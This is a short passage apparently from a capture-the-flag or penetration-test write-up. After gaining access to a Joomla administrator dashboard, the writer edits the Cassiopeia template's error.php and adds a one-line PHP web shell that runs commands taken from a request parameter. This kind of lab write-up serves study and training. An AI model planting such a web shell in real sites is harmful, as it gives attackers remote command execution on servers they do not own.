 ![joomla dash](Sun-26-2023_02-08_1.png)

From here I can quite easily create a webshell. I browse to System>Site Templates>Cassiopeia Details and Files. I then click into `error.php` and add a webshell line at the top of the file
```php
system($_REQUEST['c']);
```
